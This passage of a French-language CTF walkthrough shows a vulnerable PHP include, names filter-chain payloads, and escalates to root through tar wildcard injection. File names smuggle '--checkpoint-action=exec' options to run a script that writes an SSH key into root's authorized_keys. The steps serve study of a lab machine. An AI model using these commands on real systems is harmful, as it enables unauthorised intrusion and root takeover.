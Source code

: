 Voici le code PHP qui était vulnérable :

```php
<?php
if (isset($_POST['route'])) {
    $route = $_POST['route'];
} else {
    $route = main;
}

include $route . ".php"
?>
```

La technique est mentionnée sur [File Inclusion/Path traversal - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#data).

La seconde technique trouvée par `Wapiti` consiste à se servir d'un payload de type [GitHub - synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator). Comme `Wapiti` ajoute un point d'interrogation à la fin de son payload, l'ajout de l'extension finale n'a aucune incidence.

Une fois sur le système je trouve un dossier particulier à la racine :

```console
www-data@seckenheim:/$ ls backup/
total 3.7M
drwxr-xr-x  2 root root 4.0K May 21  2016 .
drwxr-xr-x 24 root root 4.0K May 21  2016 ..
-rw-r--r-x  1 root root   57 May 21  2016 backup.sh
-rw-r--r--  1 root root 3.7M May 22 18:20 backup.tgz
www-data@seckenheim:/$ date
Mon May 22 18:20:46 CEST 2023
```

L'archive semble avoir été créée récemment, sans doute via une tache cron. Le script shell dans le même dossier est visiblement responsable de la création :

```bash
#!/bin/bash
cd /var/www/html
tar cf /backup/backup.tgz *
```

On peut voir que le script utilise le symbole wildcard ce qui rend la commande vulnérable à une injection d'options.

On va procéder comme pour le [CTF /dev/random: Pipe]({% link _posts/2017-11-17-Solution-du-CTF-devrandom-Pipe-de-VulnHub.md %}) qui avait le même scénario. On va placer un script `evil.sh` qui rajoute une clé SSH autorisée pour le compte root puis créer des noms de fichiers qui seront pris comme des options par la commande `tar` et permettront de faire exécuter notre script :

```console
www-data@seckenheim:/var/www/html$ vi evil.sh
www-data@seckenheim:/var/www/html$ cat evil.sh 
#!/bin/bash
mkdir -p /root/.ssh/
echo "ssh-rsa AAAA--- snip clé publique ssh snip ---z8/h" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
www-data@seckenheim:/var/www/html$ touch -- "--checkpoint=1"; touch -- "--checkpoint-action=exec=sh evil.sh"; touch a
```
